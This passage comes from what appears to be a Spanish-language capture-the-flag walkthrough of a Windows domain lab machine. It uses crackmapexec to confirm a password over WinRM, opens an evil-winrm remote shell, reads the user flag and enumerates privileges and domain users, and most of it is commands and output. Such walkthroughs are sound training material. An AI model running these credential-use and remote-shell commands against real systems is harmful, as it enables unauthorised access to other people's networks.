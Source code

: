 ```bash
➜  content crackmapexec winrm 10.129.96.155 -u melanie -p Welcome123!
SMB         10.129.96.155   5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.129.96.155   5985   RESOLUTE         [*] http://10.129.96.155:5985/wsman
WINRM       10.129.96.155   5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

## User flag

- Ahora nos podemos conectar y ver la **user flag**.

```bash
➜  content evil-winrm -i 10.129.96.155 -u melanie -p Welcome123!

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami
megabank\melanie
*Evil-WinRM* PS C:\Users\melanie\Documents> type C:\Users\melanie\Desktop\user.txt
28d98e800659d48be64838d5b9bfce11
*Evil-WinRM* PS C:\Users\melanie\Documents>
```

## Shell as Ryan

- No tenemos nada interesante.

```bash
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

- Estos como ya sabemos son los usuarios del dominio.

```bash
*Evil-WinRM* PS C:\Users\melanie\Documents> net user /domain

User accounts for \\

-------------------------------------------------------------------------------
abigail                  Administrator            angela
annette                  annika                   claire
claude                   DefaultAccount           felicia
fred                     Guest                    gustavo
krbtgt                   marcus                   marko
melanie                  naoki                    paulo
per                      ryan                     sally
simon                    steve                    stevie
sunita                   ulf                      zach
The command completed with one or more errors.
```